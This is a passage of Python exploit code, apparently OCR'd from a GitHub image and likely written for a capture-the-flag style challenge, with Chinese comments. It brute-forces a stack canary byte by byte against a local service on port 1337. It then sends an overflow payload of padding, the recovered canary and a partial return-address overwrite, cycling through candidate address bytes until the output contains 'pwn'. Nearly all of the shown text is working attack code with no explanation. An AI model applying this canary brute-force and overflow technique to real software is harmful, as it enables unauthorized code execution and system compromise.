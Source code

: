 ```python
            # 发送数据到本地进程
            conn.sendline(f"{buffer_size_}")
            conn.send(base_payload)
            print(base_payload)
            
            # 接收本地进程返回的数据
            response = conn.recvall(timeout=0.5)

            if "stack smashing detected"  not in response.decode():
                print("burce success !")
                print(f"Received response: {response.decode()}")
                cancary_value += bytes([j])
                break

            # 关闭连接
            conn.close()

        i += 1

    print(cancary_value)
    return cancary_value


# 设置目标端口（本地进程监听的端口）
target_port = 1337  # 目标端口
buffer_size = 0x68
extra_byte = 1

cancary = burce_canary_value()
# cancary = b'\x95>yh\x90l+'
hex_str = ''.join(f'{byte:02x}' for byte in cancary[::-1]) + "00"
cancary_value = p64(int(hex_str, 16))
print(cancary_value)


new_buffer_size = buffer_size + 8 + 8 + 2

# 动态生成形如 \x17, \x27, \x37, ... \xf7 的字节序列
change_address = [bytes([i]) for i in range(0x1F, 0x100, 0x10)]


for address in change_address: 
    conn = remote('127.0.0.1', target_port)
    conn.recvuntil("Payload size:")
    conn.sendline(f"{new_buffer_size}")
    payload = buffer_size * b'A' + cancary_value + 8 * b'A' + b'\x5A' + address
    conn.send(payload)
    response = conn.recvall(timeout=1)
    if "pwn" in response.decode():
        print(response.decode())
        exit()
```